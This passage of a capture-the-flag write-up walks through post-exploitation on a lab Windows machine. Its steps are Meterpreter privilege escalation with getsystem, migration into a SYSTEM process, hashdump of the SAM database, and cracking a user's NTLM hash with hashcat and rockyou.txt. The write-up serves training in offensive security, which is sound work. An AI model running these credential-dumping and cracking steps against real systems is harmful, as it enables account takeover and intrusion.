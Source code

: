 
Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes

meterpreter > 
```
It is possible to verify that we have escalated to SYSTEM user by using ```getsystem```.  
![alt text](https://i.imgur.com/4o3fMF0.png)  

Like said in the room's question : "Just because we are system doesn't mean our process is". So we need to migrate to a process that is running as SYSTEM.
First, let's check the process list with ```ps```.  
![alt text](https://i.imgur.com/VtFZ4rQ.png)  

We just have to use a process running as SYSTEM, so for exemple, let's take process 2060 (spoolsv.exe).  
So let's type ```migrate 2060```.  
![alt text](https://i.imgur.com/RLwWRtE.png)  

## Password crack
**Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user ?**  
![alt text](https://i.imgur.com/ac3VQNT.png)  


So we use ```hashdump``` to dump user's password hashes of the machine.
Answer : Jon  

Let's copy the password hash of user Jon and crack it. 
First, we need to know what hash type is it. I use this [Hash Identifier](https://hashes.com/en/tools/hash_identifier).  
In this case, the hash identifier found the corresponding password to the given hash.  If it doesn't find it, we can try using [hashcat](https://hashcat.net/hashcat/).
Let's write the hash into a file with ```echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt```.  
Now we can try to crack the password hash using the rockyou.txt well known wordlist. We know that the hash type is NTLM.
Lets type ```hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt```.
![alt text](https://i.imgur.com/9vyv1Sg.png)  


```